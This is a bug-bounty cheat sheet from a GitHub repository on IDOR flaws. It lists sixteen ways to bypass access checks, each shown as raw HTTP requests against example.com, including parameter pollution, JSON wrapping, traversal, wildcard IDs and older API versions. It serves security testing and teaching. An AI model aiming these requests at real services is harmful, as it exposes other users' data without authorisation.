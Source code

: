 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Insecure%20Direct%20Object%20References.md#introduction)

IDOR stands for Insecure Direct Object Reference is a security vulnerability in which a user is able to access and make changes to data of any other user present in the system.

## Where to find

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Insecure%20Direct%20Object%20References.md#where-to-find)

- Usually it can be found in APIs.
- Check the HTTP request that contain unique ID, for example `user_id` or `id`

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Insecure%20Direct%20Object%20References.md#how-to-exploit)

1. Add parameters onto the endpoints for example, if there was

```
GET /api/v1/getuser HTTP/1.1
Host: example.com
...
```

Try this to bypass

```
GET /api/v1/getuser?id=1234 HTTP/1.1
Host: example.com
...
```

2. HTTP Parameter pollution

```
POST /api/get_profile HTTP/1.1
Host: example.com
...

user_id=hacker_id&user_id=victim_id
```

3. Add .json to the endpoint

```
GET /v2/GetData/1234 HTTP/1.1
Host: example.com
...
```

Try this to bypass

```
GET /v2/GetData/1234.json HTTP/1.1
Host: example.com
...
```

4. Test on outdated API Versions

```
POST /v2/GetData HTTP/1.1
Host: example.com
...

id=123
```

Try this to bypass

```
POST /v1/GetData HTTP/1.1
Host: example.com
...

id=123
```

5. Wrap the ID with an array.

```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}
```

Try this to bypass

```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"id":[111]}
```

6. Wrap the ID with a JSON object

```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}
```

Try this to bypass

```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":{"user_id":111}}
```

7. JSON Parameter Pollution

```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":"hacker_id","user_id":"victim_id"}
```

8. Try decode the ID, if the ID encoded using md5,base64,etc

```
GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1.1
Host: example.com
...
```

dmljdGltQG1haWwuY29t => [victim@mail.com](mailto:victim@mail.com)

9. If the website using GraphQL, try to find IDOR using GraphQL

```
GET /graphql HTTP/1.1
Host: example.com
...
```

```
GET /graphql.php?query= HTTP/1.1
Host: example.com
...
```

10. MFLAC (Missing Function Level Access Control)

```
GET /admin/profile HTTP/1.1
Host: example.com
...
```

Try this to bypass

```
GET /ADMIN/profile HTTP/1.1
Host: example.com
...
```

11. Try to swap uuid with number

```
GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1.1
Host: example.com
...
```

Try this to bypass

```
GET /file?id=302
Host: example.com
...
```

12. Change HTTP Method

```
GET /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...
```

Try this to bypass

```
POST /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...
```

13. Path traversal

```
GET /api/v1/users/profile/victim_id HTTP/1.1
Host: example.com
...
```

Try this to bypass

```
GET /api/v1/users/profile/my_id/../victim_id HTTP/1.1
Host: example.com
...
```

14. Change request `Content-Type`

```
GET /api/v1/users/1 HTTP/1.1
Host: example.com
Content-type: application/xml
```

Try this to bypass

```
GET /api/v1/users/2 HTTP/1.1
Host: example.com
Content-type: application/json
```

15. Send wildcard instead of ID

```
GET /api/users/111 HTTP/1.1
Host: example.com
```

Try this to bypass

```
GET /api/users/* HTTP/1.1
Host: example.com
```

```
GET /api/users/% HTTP/1.1
Host: example.com
```

```
GET /api/users/_ HTTP/1.1
Host: example.com
```

```
GET /api/users/. HTTP/1.1
Host: example.com
```

16. Try google dorking to find new endpoint

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Insecure%20Direct%20Object%20References.md#references)

- [@swaysThinking](https://twitter.com/swaysThinking) and other medium writeup


